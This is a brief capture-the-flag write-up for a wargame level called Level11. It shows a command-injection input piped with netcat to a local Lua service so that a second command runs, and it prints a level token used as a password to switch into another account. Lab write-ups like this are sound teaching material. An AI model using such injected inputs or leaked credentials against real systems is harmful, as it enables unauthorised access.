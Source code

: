 # Level11
There are two ways to do this one :

The classic way is by exploiting the `level11.lua` script with its unsecure execution of `echo` with the input parameters.
>`echo " lol ; getflag > /tmp/flag #" | nc 127.0.0.1 5151`

Get the flag
>`cat /tmp/flag`

The fun way is by using the **level10** Token to directly access the **flag11** user, thereby bypassing **level11**.
>`su flag11`
then paste `woupa2yuojeeaaed06riuj63c`
